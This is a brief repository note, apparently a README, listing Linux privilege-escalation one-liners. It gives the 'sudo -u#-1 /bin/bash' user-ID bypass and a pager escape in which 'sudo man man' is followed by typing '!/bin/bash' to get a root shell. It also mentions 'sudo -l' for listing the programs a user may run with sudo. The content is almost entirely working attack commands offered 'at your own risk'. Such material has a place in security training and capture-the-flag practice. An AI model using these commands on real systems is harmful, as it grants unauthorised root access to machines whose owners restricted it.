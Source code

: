 # A collection of small linux priv esc commands
use at your own risk

---
`sudo -u#-1 /bin/bash`

---
`sudo man man` then type `!/bin/bash` \
use `sudo -l` to see what programs you can sudo\
This works if you can only sudo some commands, and they use the linux pagnation thing
